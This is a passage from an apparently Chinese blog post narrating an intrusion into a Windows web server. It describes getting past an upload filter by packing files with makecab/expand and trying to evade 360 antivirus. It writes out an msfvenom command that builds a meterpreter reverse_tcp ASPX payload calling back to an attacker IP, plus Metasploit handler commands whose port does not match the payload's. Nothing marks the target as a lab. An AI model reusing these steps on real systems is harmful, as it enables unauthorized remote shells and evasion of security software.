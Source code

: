 &nbsp;

&nbsp;

原来是主动防御搞得鬼

想来想去既然能执行cmd那么反弹回来个互交shell不久能提权了么

&nbsp;

2333

&nbsp;

然而反弹shell  360拦截

&nbsp;

后来想到既然他aspx不让传 我传个jpg总可以把  然后改名

然而还是不行 最后试了zip可以

那么上传个zip然后解压

2333

压缩一个文件：  
makecab c:/file\_name.txt c:/file\_name.zip

解压一个文件：  
expand c:/file\_name.zip c:/file\_name.txt

&nbsp;

成功上传

<img class="alignnone size-full wp-image-219" src="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5.png" alt="" width="1322" height="368" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5.png 1322w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-300x84.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-768x214.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-1024x285.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-830x231.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-230x64.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-350x97.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-5-480x134.png 480w" sizes="(max-width: 709px) 85vw, (max-width: 909px) 67vw, (max-width: 1362px) 62vw, 840px" /> 

&nbsp;

然而执行被杀

&nbsp;

试试免杀？

&nbsp;

<http://netsec.ws/?p=331>

&nbsp;

参照这里

&nbsp;

msfvenom -a x86 &#8211;platform win -p windows/meterpreter/reverse_tcp LHOST= 192.168.1.109 LPORT=7788 -f aspx x> /home/niexinming/back.aspx

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LPORT 5555
